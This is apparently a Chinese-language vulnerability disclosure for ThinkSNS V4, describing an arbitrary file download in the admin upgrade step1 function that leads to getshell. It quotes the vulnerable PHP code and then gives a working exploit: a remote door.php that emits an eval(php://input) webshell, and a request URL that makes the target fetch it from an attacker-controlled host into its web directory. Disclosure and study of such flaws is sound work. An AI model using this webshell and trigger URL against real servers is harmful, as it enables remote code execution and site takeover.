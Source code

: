 # ThinkSNS_V4 后台任意文件下载导致Getshell

## Affected Version 

	ThinkSNS官网：http://www.thinksns.com
	
	网站源码版本：ThinkSNS V4  更新时间：2017-09-13
	
	程序源码下载：http://www.thinksns.com/experience.html（填写信息后，提交并下载代码）
	
	默认后台地址：http://127.0.0.1/index.php?app=admin&mod=Public&act=login
	
	默认用户密码：管理员帐号: admin@admin.com 密码自设，大于6位

## Code analysis

存在漏洞代码`\ts4\apps\admin\Lib\Action\UpgradeAction.class.php`中的一个函数中。

	public function step1()
    {
        $downUrl = $_GET['upurl'];
        $downUrl = urldecode($downUrl);
        $path = DATA_PATH.'/'.'upgrade/'.basename($downUrl);

        // # 备份老配置文件
        $oldConf = file_get_contents(CONF_PATH.'/thinksns.conf.php');
        file_put_contents(DATA_PATH.'/old.thinksns.conf.php', $oldConf);

        // # 下载增量包
        is_dir(dirname($path)) or mkdir(dirname($path), 0777, true);
        file_put_contents($path, file_get_contents($downUrl));
        file_exists($path) or $this->showError('下载升级包失败，请检查'.dirname($path).'目录是否可写，如果可写，请刷新重试！');

        // 验证hash判断包是否合法。
        $filename = dirname($path).'/upgrade.json';
        $data = file_get_contents($filename);
        $data = json_decode($data, false);
        if (md5_file($path) != $data->md5) {
            $this->showError('更新包校验失败，请重新执行升级.');
        }




函数

	file_put_contents — 将一个字符串写入文件
	file_get_contents — 将整个文件读入一个字符串


在这段函数中，先备份老配置文件，然后下载增量包，下载参数$downUrl未经过任何处理，直接下载到网站目录下，接着验证hash判断包是否合法，但是并没有删除下载的增量包，
导致程序在实现上存在任意文件下载漏洞，下载远程文件到网站目录下，攻击者可指定第三方url下载恶意脚本到网站目录，进一步触发恶意代码，控制网站服务器。
	
远程下载文件，在另一个服务器上创建door.php。

	<?php   
	echo "<?php";
	echo "eval(file_get_contents('php://input'));";  
	echo "?>";  
	?>  


远程下载 	

`http://127.0.0.1:8000/ts4/index.php?app=admin&mod=Upgrade&act=step1&upurl=http://192.168.86.194:8000/door.php`

![](http://opmi2ydgh.bkt.clouddn.com//18-3-6/64637983.jpg)

会在`ts4\data\upgrade`出现下载的`door.php`文件。

![](http://opmi2ydgh.bkt.clouddn.com//18-3-6/64755240.jpg)

## References

[ThinkSNS_V4 后台任意文件下载导致Getshell](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448903598&idx=1&sn=597d488c492fca52b49b0f5ddddcadb8&chksm=8b55ddf3bc2254e5135ff7f9a10cdde3ce710e32d53fb4575b02411a9b3bbe23ec26207f8196&mpshare=1&scene=23&srcid=0311KzWTeNcTSxfCLzcIRd7F#rd)